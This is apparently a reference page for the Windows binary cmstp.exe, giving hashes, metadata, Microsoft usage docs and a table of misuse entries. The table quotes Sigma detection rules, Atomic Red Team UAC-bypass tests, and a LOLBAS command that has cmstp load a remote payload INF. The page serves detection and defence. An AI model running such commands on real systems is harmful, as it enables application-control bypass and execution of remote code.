


---
title: cmstp.exe | Microsoft Connection Manager Profile Installer
excerpt: What is cmstp.exe?
---

# cmstp.exe 

* File Path: `C:\Windows\system32\cmstp.exe`
* Description: Microsoft Connection Manager Profile Installer

## Screenshot




## Hashes

Type | Hash
-- | --
MD5 | `D9818B3C3BC0AF0A5374C71272581C08`
SHA1 | `89030EB0DE2B856B47105CA67DAAC722ABAF0BDF`
SHA256 | `DB3F360BDB292C0679C13149AC6F454F7DCE768BDE559D87CE718023A6985A0D`
SHA384 | `80F6CF838D29DF688E727878770F17DE03624A819B6B480C256673A61FDA62BCB098430DF2FF7454EDD4198880615FAA`
SHA512 | `9330F1929D3F14425F23B508CB9449F44B8BF5BB14C3CFB7130599B20CBAEE9A0DFC5F40C8FA9AE928C4893614DD9787AD7003D1A3072AD8D7774774A3881571`
SSDEEP | `1536:+ovqTsD+XrQyOWPAfrUetMY7lDUKhyvj2ihR/87BMKM/SO1URZ:nv5HyOWeLeklwv/Rk7BMK6SO1gZ`

## Runtime Data

### Window Title:
Connection Manager Profile Installer

### Open Handles:

Path | Type
-- | --
(R-D)   C:\Windows\Fonts\StaticCache.dat | File
(R-D)   C:\Windows\System32\en-US\cmstp.exe.mui | File
(RW-)   C:\Users\Administrator\Documents | File
\BaseNamedObjects\NLS_CodePage_1252_3_2_0_0 | Section
\BaseNamedObjects\NLS_CodePage_437_3_2_0_0 | Section
\Sessions\2\Windows\Theme4283305886 | Section
\Windows\Theme1956823608 | Section


### Loaded Modules:

Path |
-- |
C:\Windows\System32\ADVAPI32.dll |
C:\Windows\System32\bcryptPrimitives.dll |
C:\Windows\System32\cfgmgr32.dll |
C:\Windows\system32\cmstp.exe |
C:\Windows\system32\cmutil.dll |
C:\Windows\System32\combase.dll |
C:\Windows\System32\cryptsp.dll |
C:\Windows\System32\GDI32.dll |
C:\Windows\System32\gdi32full.dll |
C:\Windows\System32\IMM32.DLL |
C:\Windows\System32\kernel.appcore.dll |
C:\Windows\System32\KERNEL32.DLL |
C:\Windows\System32\KERNELBASE.dll |
C:\Windows\System32\msvcp_win.dll |
C:\Windows\System32\msvcrt.dll |
C:\Windows\SYSTEM32\ntdll.dll |
C:\Windows\System32\ole32.dll |
C:\Windows\System32\powrprof.dll |
C:\Windows\System32\profapi.dll |
C:\Windows\System32\RPCRT4.dll |
C:\Windows\System32\sechost.dll |
C:\Windows\System32\shcore.dll |
C:\Windows\System32\SHELL32.dll |
C:\Windows\System32\shlwapi.dll |
C:\Windows\System32\ucrtbase.dll |
C:\Windows\System32\USER32.dll |
C:\Windows\system32\VERSION.dll |
C:\Windows\System32\win32u.dll |
C:\Windows\System32\windows.storage.dll |


## Signature

* Status: Signature verified.
* Serial: `33000001C422B2F79B793DACB20000000001C4`
* Thumbprint: `AE9C1AE54763822EEC42474983D8B635116C8452`
* Issuer: CN=Microsoft Windows Production PCA 2011, O=Microsoft Corporation, L=Redmond, S=Washington, C=US
* Subject: CN=Microsoft Windows, O=Microsoft Corporation, L=Redmond, S=Washington, C=US

## File Metadata

* Original Filename: CMSTP.EXE.MUI
* Product Name: Microsoft(R) Connection Manager
* Company Name: Microsoft Corporation
* File Version: 7.2.17763.1 (WinBuild.160101.0800)
* Product Version: 7.2.17763.1
* Language: English (United States)
* Legal Copyright:  Microsoft Corporation. All rights reserved.


## Possible Misuse

*The following table contains possible examples of `cmstp.exe` being misused. While `cmstp.exe` is **not** inherently malicious, its legitimate functionality can by abused for malicious purposes.*

Source | Source File | Example | License
-- | -- | -- | --
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_access/sysmon_cmstp_execution.yml) | `title: CMSTP Execution` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_access/sysmon_cmstp_execution.yml) | `- https://web.archive.org/web/20190720093911/http://www.endurant.io/cmstp/detecting-cmstp-enabled-code-execution-and-uac-bypass-with-sysmon/` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_access/sysmon_cmstp_execution.yml) | `- Legitimate CMSTP use (unlikely in modern enterprise environments)` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_access/sysmon_cmstp_execution.yml) | `# CMSTP Spawning Child Process` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_access/sysmon_cmstp_execution.yml) | `ParentImage: '*\cmstp.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_cmstp_com_object_access.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_cmstp_com_object_access.yml) | `title: CMSTP UAC Bypass via COM Object Access` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_cmstp_com_object_access.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_cmstp_com_object_access.yml) | `- https://web.archive.org/web/20190720093911/http://www.endurant.io/cmstp/detecting-cmstp-enabled-code-execution-and-uac-bypass-with-sysmon/` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_cmstp_com_object_access.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_cmstp_com_object_access.yml) | `- Legitimate CMSTP use (unlikely in modern enterprise environments)` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary.yml) | `- 'cmstp.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary.yml) | `- '\cmstp.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary_highly_relevant.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary_highly_relevant.yml) | `- "cmstp.exe"` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_renamed_binary_highly_relevant.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_renamed_binary_highly_relevant.yml) | `- '*\cmstp.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_uac_cmstp.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_uac_cmstp.yml) | `title: Bypass UAC via CMSTP` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_uac_cmstp.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_uac_cmstp.yml) | `description: Detect child processes of automatically elevated instances of Microsoft Connection Manager Profile Installer (cmstp.exe).` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_uac_cmstp.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_uac_cmstp.yml) | `Image\|endswith: '\cmstp.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_uac_cmstp.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_uac_cmstp.yml) | `- Legitimate use of cmstp.exe utility by legitimate user` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/registry_event/sysmon_cmstp_execution.yml) | `title: CMSTP Execution` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/registry_event/sysmon_cmstp_execution.yml) | `- https://web.archive.org/web/20190720093911/http://www.endurant.io/cmstp/detecting-cmstp-enabled-code-execution-and-uac-bypass-with-sysmon/` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/registry_event/sysmon_cmstp_execution.yml) | `- Legitimate CMSTP use (unlikely in modern enterprise environments)` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/registry_event/sysmon_cmstp_execution.yml) | `# CMSTP Spawning Child Process` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/registry_event/sysmon_cmstp_execution.yml) | `ParentImage: '*\cmstp.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_cmstp_execution.yml) | `title: CMSTP Execution` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_cmstp_execution.yml) | `- https://web.archive.org/web/20190720093911/http://www.endurant.io/cmstp/detecting-cmstp-enabled-code-execution-and-uac-bypass-with-sysmon/` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_cmstp_execution.yml) | `- Legitimate CMSTP use (unlikely in modern enterprise environments)` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_cmstp_execution.yml) | `# CMSTP Spawning Child Process` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_cmstp_execution.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_cmstp_execution.yml) | `ParentImage: '*\cmstp.exe'` | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Cmstp.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Cmstp.yml) | `Name: Cmstp.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Cmstp.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Cmstp.yml) | `- Command: cmstp.exe /ni /s c:\cmstp\CorpVPN.inf` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Cmstp.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Cmstp.yml) | `- Command: cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Cmstp.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Cmstp.yml) | `- Path: C:\Windows\System32\cmstp.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Cmstp.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Cmstp.yml) | `- Path: C:\Windows\SysWOW64\cmstp.exe` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Cmstp.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Cmstp.yml) | `- IOC: Execution of cmstp.exe should not be normal unless VPN is in use` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Cmstp.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Cmstp.yml) | `- IOC: Cmstp.exe communication towards internet and getting files` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Cmstp.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Cmstp.yml) | `- Link: https://oddvar.moe/2017/08/15/research-on-cmstp-exe/` | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Cmstp.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Cmstp.yml) | `- Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp` | 
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) | - [T1218.003 CMSTP](../../T1218.003/T1218.003.md) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) | - Atomic Test #1: CMSTP Executing Remote Scriptlet [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/index.md) | - Atomic Test #2: CMSTP Executing UAC Bypass [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) | - [T1218.003 CMSTP](../../T1218.003/T1218.003.md) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) | - Atomic Test #1: CMSTP Executing Remote Scriptlet [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-index.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Indexes-Markdown/windows-index.md) | - Atomic Test #2: CMSTP Executing UAC Bypass [windows] | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [matrix.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Matrices/matrix.md) | \| External Remote Services [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| Exploitation for Client Execution [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| [Application Shimming](../../T1546.011/T1546.011.md) \| [At (Linux)](../../T1053.001/T1053.001.md) \| [CMSTP](../../T1218.003/T1218.003.md) \| Credentials from Password Stores [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| [Domain Groups](../../T1069.002/T1069.002.md) \| [RDP Hijacking](../../T1563.002/T1563.002.md) \| [Credential API Hooking](../../T1056.004/T1056.004.md) \| Exfiltration Over Symmetric Encrypted Non-C2 Protocol [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| Data Obfuscation [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| Disk Content Wipe [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [windows-matrix.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes/Matrices/windows-matrix.md) | \| External Remote Services [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| Inter-Process Communication [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| Authentication Package [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| [At (Windows)](../../T1053.002/T1053.002.md) \| [CMSTP](../../T1218.003/T1218.003.md) \| [Credentials in Registry](../../T1552.002/T1552.002.md) \| [File and Directory Discovery](../../T1083/T1083.md) \| [RDP Hijacking](../../T1563.002/T1563.002.md) \| [Credential API Hooking](../../T1056.004/T1056.004.md) \| Exfiltration Over Physical Medium [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| Data Encoding [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| Direct Network Flood [CONTRIBUTE A TEST](https://atomicredteam.io/contributing) \| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | # T1218.003 - CMSTP | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | <blockquote>Adversaries may abuse CMSTP to proxy execution of malicious code. The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | Adversaries may supply CMSTP.exe with INF files infected with malicious commands. (Citation: Twitter CMSTP Usage Jan 2018) Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010) / ”Squiblydoo”, CMSTP.exe may be abused to load and execute DLLs (Citation: MSitPros CMSTP Aug 2017)  and/or COM scriptlets (SCT) from remote servers. (Citation: Twitter CMSTP Jan 2018) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018) This execution may also bypass AppLocker and other application control defenses since CMSTP.exe is a legitimate, signed Microsoft application. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | CMSTP.exe can also be abused to [Bypass User Access Control](https://attack.mitre.org/techniques/T1548/002) and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote> | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | - [Atomic Test #1 - CMSTP Executing Remote Scriptlet](#atomic-test-1---cmstp-executing-remote-scriptlet) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | - [Atomic Test #2 - CMSTP Executing UAC Bypass](#atomic-test-2---cmstp-executing-uac-bypass) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | ## Atomic Test #1 - CMSTP Executing Remote Scriptlet | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | Adversaries may supply CMSTP.exe with INF files infected with malicious commands | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | cmstp.exe /s #{inf_file_path} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | ## Atomic Test #2 - CMSTP Executing UAC Bypass | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.003.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) | cmstp.exe /s #{inf_file_uac} /au | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [apis-execution-frameworks.md](https://github.com/redcanaryco/atomic-red-team/blob/master/docs/apis-execution-frameworks.md) | Exploit Public-Facing Application, CMSTP, Accessibility Features, Accessibility Features, BITS Jobs, Bash History, Application Window Discovery, Application Deployment Software, Automated Collection, Data Compressed, Communication Through Removable Media | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)

## Additional Info*

**The information below is copied from [MicrosoftDocs](https://github.com/MicrosoftDocs/windowsserverdocs), which is maintained by [Microsoft](https://opensource.microsoft.com/codeofconduct/). Available under [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/) license.*

---

## cmstp

> Applies to: Windows Server (Semi-Annual Channel), Windows Server 2019, Windows Server 2016, Windows Server 2012 R2, Windows Server 2012

Installs or removes a Connection Manager service profile. Used without optional parameters, **cmstp** installs a service profile with default settings appropriate to the operating system and to the user's permissions.

### Syntax

Syntax 1 - This is the typical syntax used in a custom installation application. To use this syntax, you must run **cmstp** from the directory that contains the `<serviceprofilefilename>.exe` file.

```
<serviceprofilefilename>.exe /q:a /c:cmstp.exe <serviceprofilefilename>.inf [/nf] [/s] [/u]
```

Syntax 2
```
cmstp.exe [/nf] [/s] [/u] [drive:][path]serviceprofilefilename.inf
```

##### Parameters
| Parameter | Description |
| --------- | ----------- |
| `<serviceprofilefilename>.exe` | Specifies, by name, the installation package that contains the profile that you want to install.<p>Required for Syntax 1, but not valid for Syntax 2. |
| /q:a | Specifies that the profile should be installed without prompting the user. The verification message that the installation has succeeded will still appear.<p>Required for Syntax 1, but not valid for Syntax 2. |
| [drive:][path] `<serviceprofilefilename>.inf` | Required. Specifies, by name, the configuration file that determines how the profile should be installed.<p>The [drive:][path] parameter isn't valid for Syntax 1. |
| /nf | Specifies that the support files should not be installed. |
| /s | Specifies that the service profile should be installed or uninstalled silently (without prompting for user response or displaying verification message). This is the only parameter that you can use in combination with **/u**.|
| /u | Specifies that the service profile should be uninstalled. |
| /? | Displays help at the command prompt. |

### Examples

To install the *fiction* service profile without any support files, type:

```
fiction.exe /c:cmstp.exe fiction.inf /nf
```

To silently install the *fiction* service profile for a single user, type:

```
fiction.exe /c:cmstp.exe fiction.inf /s /su
```

To silently uninstall the *fiction* service profile, type:

```
fiction.exe /c:cmstp.exe fiction.inf /s /u
```

### Additional References

- [Command-Line Syntax Key](https://github.com/MicrosoftDocs/windowsserverdocs/tree/master/WindowsServerDocs/administration/windows-commands/command-line-syntax-key.md)

---


MIT License. Copyright (c) 2020 Strontic.


